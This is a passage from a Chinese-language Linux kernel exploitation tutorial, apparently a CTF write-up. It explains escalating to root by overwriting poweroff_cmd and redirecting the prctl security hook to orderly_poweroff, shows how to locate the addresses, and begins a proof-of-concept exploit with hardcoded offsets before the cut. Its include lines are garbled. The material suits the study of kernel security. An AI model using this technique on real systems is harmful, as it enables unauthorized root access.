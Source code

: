 ```
 
    return ret;
}

```

这里就调用到 call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC)，这里的参数 rdi 中就是

 

poweroff_cmd。所以如果我们可以劫持 poweroff_cmd 为我们的程序名字字符串，那么就可以调用 call_usermodehelpe 函数来启动我们的程序。而 poweroff_cmd 是一个全局变量，可以直接获取地址进行修改。

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211021002640.png)

 

而 call_usermodehelpe 函数启动程序时是以 root 权限启动的，所以如果我们的程序运行 / bin/sh 且以 root 权限启动，那么就完成了提权。

#### (3) 获取地址

##### [](#①prctl_hook)①prctl_hook

可以通过编写一个小程序，然后给`security_task_prctl`函数下断点，运行到`call QWORD PTR[rbx+0x18]`即可看到对应的 rbx+0x18 上存放的地址，将其修改为`orderly_poweroff`函数即可。

##### [](#②poweroff_cmd、orderly_poweroff)②poweroff_cmd、orderly_poweroff

可以直接使用 nm 命令来获取，或者直接进入 gdb 打印即可。

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211021105503.png)

 

此外 orderly_poweroff 也是一样的获取。如果无法查到，那么可以启动 qemu，先设置为 root 权限后

 

`cat /proc/kallsyms | grep "orderly_poweroff"`即可，或者编译一个对应版本的内核进行查询。

 

![](https://pig-007.oss-cn-beijing.aliyuncs.com/img/20211021105603.png)

 

▲最后 fork 一个子进程来触发反弹 shell 即可

#### POC

```
// gcc -static exp.c -o exp
 
//ffffffff812adb90 T security_task_prctl
 
 
#include #include #include #include #include #include #include #include #include #include #include #include #include #include #include #include //poweroff字符串的偏移
#define POWEROFF_CMD 0xe39c40
//orderly_poweroff函数的偏移
#define ORDERLY_POWEROFF 0x070060
//prctl_hook的偏移
#define PRCTL_HOOK 0xe7c7d8;
 
 
struct arbWriteNote
{
    ssize_t addr;
    ssize_t len;
```